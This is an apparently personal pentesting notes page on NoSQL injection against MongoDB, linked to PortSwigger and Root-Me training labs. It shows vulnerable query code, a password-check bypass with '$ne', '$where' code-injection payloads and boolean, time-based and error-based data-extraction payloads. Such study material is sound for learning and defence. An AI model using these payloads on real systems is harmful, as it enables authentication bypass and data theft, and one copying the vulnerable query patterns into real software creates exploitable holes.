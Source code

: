 # NoSQL Injection (NoSQLi)

[![nosql_injection](../../../../_badges/ps-course/nosql_injection.svg)](https://portswigger.net/web-security/nosql-injection)

<div class="row row-cols-lg-2"><div>

According to a company or an application needs, a NoSQL database may be used instead of the traditional SQL database. This is often the case when using [GraphQL](/programming-languages/others/apis/graphql/index.md) API Model.

While NoSQL database such as MongoDB are inherently more resilient to common attacks, they may still be exploited.

* Test characters such as `'"};\r\n$Foo&|`
* Test coercing variables into arrays

If one is successful for NoSQL, there you may have an injection.
</div><div>

</div></div>

<hr class="sep-both">

## NoSQL Parameter injection ✍️

[![nosql_injection](../../../../_badges/ps-course/nosql_injection.svg)](https://portswigger.net/web-security/nosql-injection)
[![nosql_injection_authentication](../../../../_badges/rootme/web_server/nosql_injection_authentication.svg)](https://www.root-me.org/en/Challenges/Web-Server/NoSQL-injection-Authentication)

<div class="row row-cols-lg-2"><div>

The MongoDB PHP code to list all users matching a username is:

```php!
$result = $db_accounts->find(['username' => $username, 'password' => $password]);
```

If the type of `$password` is not verified, then we can try to coerce it into an array. If the input format is not JSON, try [HTTP parameter pollution](/cybersecurity/red-team/s2.discovery/techniques/websites/logic_flaws.md#http-parameter-pollution).

```php!
// Bypass the password check
// Common parameter pollution in PHP: ...&password[$ne]=&
$result = $db_accounts->find([
    'username' => 'admin', 
    'password' => ['$ne' => '']
]);
```
</div><div>

We can use multiple operators such as:

* `['$in' => ['a', 'b']]`: keep values in array
* `['$nin' => ['a', 'b']]`: do not keep values in array
* `['$regex' => 'adm']`: keep values matching a regex (`admin`, etc.)
* `['$where' => '...']`: refer to [NoSQLi Query Injection](#nosql-query-injection-)

Some systems such as MongoDB offer what we call a projection. It indirectly prevents us from accessing unselected parameters.

```php!
// ... But only returns the property 'username' 
$results = $db_accounts->find(..., ['projection' => ['username' => 1]]);
```
</div></div>

<hr class="sep-both">

## NoSQL Query injection 📚

[![nosql_injection](../../../../_badges/ps-course/nosql_injection.svg)](https://portswigger.net/web-security/nosql-injection)
[![nosqli_detection](../../../../_badges/ps-lab/nosqli/nosqli_detection.svg)](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-detection)
[![nosqli_bypass_authentication](../../../../_badges/ps-lab/nosqli/nosqli_bypass_authentication.svg)](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-bypass-authentication)
[![nosqli_extract_data](../../../../_badges/ps-lab/nosqli/nosqli_extract_data.svg)](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-data)

<div class="row row-cols-lg-2"><div>

NoSQL Query Injection occurs when the developer either passed the whole user input to the MongoDB function -or- the developer used user-input in the `$where` clause without any security mechanisms.

```!
const user_input = {'username': 'admin'}
const results = await collection.find(user_input).toArray();
```

```js!
const user_input = 'admin'
const results = await collection.find({
    $where: `this.username == "${user_input}"`
}).toArray();
```

```php!
// It's not limited to JavaScript, but the syntax changes
$username = 'admin';
$results = $db_accounts->find([
    '$where' => "this['username'] == '$username'"
]);
```

When we control the whole first parameter, we can inject a `$where`:

```!
const user_input = {'username': 'admin', '$where': '...'}
```

Inside the `$where`, we can write arbitrary code in the language of the backend that will be evaluated. If errors are shown, use exceptions:

```js!
{ ..., '$where': 'throw JSON.stringify(this)' }
```
</div><div>

Otherwise, we can use a Boolean-Based or Time-Based approach <small>(if there are no changes in the response)</small> to extract characters one by one.

```js!
// Test '1' and '0' and look for changes in the output
// (often, 1 == results, 0 == no results)
{ ..., '$where': '1' }
// JavaScript (tested, there is a 'sleep' function) 
{ ..., '$where': '1 ? sleep(5000) : 0' }
```

In JavaScript, these payloads may be handy:

* `this.username == undefined ? 0 : 1` <small>(Test if an attribute exists)</small>
* `Object.keys(this)[n] == undefined ? 0 : 1` <small>(Test if there are `n` attributes. Note that each record can have a different number #NoSQL)</small>
* `Object.keys(this)[0] == '_id'` <small>(Test if attribute `0` is `_id`)</small>
* `Object.keys(this)[0].match(/^.{n}$/)` <small>(Test if the **length of the name** of the attribute at index `0` is `n`. For instance, `_id`'s length is 3)</small>
* `Object.keys(this)[0].match(/^_/)` <small>(Test if the **first character of the name** of the attribute at index `0` is `_`. For instance, for `_id`, it is True)</small>
* `this.username == value`, `this.username.match(/^.{n}$/)`, and `this.username.match(/^adm/)`  <small>(Test a value, the length, and brute force)</small>

<details class="details-n">
<summary>JavaScript <code>$where</code> Data Extraction In Python</summary>
</details>

</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Test Null Byte (It's not working with recent versions)
</div><div>
</div></div>